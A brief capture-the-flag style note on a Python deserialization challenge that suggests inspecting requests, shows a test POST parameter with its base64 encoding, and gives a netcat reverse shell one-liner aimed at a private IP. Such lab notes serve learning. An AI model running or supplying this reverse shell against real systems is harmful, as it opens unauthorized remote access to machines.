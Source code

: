 # python string attack
hint: deserialization

# Foot Notes
- In Chrome, press f12 to see post/get requests sent.
# try
1. test post param:
```py
[
    {'id': 'ninja', 'left': 350, 'top': 180},
    {'id': 'pizza', 'left': 360, 'top': 190}
    
]
#WyAgICAgeydpZCc6ICduaW5qYScsICdsZWZ0JzogMzUwLCAndG9wJzogMTgwfSwgICAgIHsnaWQnOiAncGl6emEnLCAnbGVmdCc6IDM2MCwgJ3RvcCc6IDE5MH0gICAgICBd
```
2. reverse shell payload
```sh
mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.25 9999 >/tmp/f
```

